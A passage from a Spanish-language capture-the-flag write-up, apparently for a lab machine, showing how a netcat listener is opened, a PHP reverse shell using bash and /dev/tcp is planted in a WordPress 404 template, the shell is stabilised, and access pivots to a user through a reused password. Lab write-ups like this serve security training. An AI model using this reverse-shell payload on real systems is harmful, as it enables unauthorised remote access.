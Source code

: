 ## Vuln exploit & Gaining Access {-}

### Crear una reverse shell desde la 404 Template {-}

Nos ponemos en escucha con el puerto 443.

```bash
nc -nlvp 443
```

Editamos el fichero 404 Template con una reverse shell en php

```php
<?php
    system("bash -c 'bash -i >& /dev/tcp/10.10.14.7/443 0>&1'");
?>
```

ya podemos ir al url `http://10.10.10.37/?p=404.php` y pa dentro

### Tratamiento de la TTY {-}

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset
-> xterm
export TERM=xterm
export SHELL=bash

stty -a

stty rows <rownb> columns <colnb>
```

User Pivoting al usuario notch {-}

Miramos si hay reutilisacion de contraseñas 

```bash
su notch 
```

Y con la contraseña encontrada en el ficher `BlockyCore.class` functiona. Y ya podemos ver la flag.